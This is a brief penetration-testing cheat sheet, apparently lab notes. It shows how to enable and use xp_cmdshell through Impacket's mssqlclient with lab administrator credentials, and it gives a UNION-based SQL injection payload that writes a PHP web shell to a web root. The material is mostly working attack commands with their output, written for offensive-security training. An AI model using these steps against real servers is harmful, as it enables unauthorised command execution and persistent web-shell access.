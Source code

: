 # Code Execution

## Impacket

We can use impackets mssqlclient & xp\_cmdshell to execute commands on windows

```bash
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```



```bash
SQL> EXECUTE xp_cmdshell 'whoami';
output

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

nt service\mssql$sqlexpress

NULL
```



## PHP Injection

We may be able to inject php onto the website as well

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO 
OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
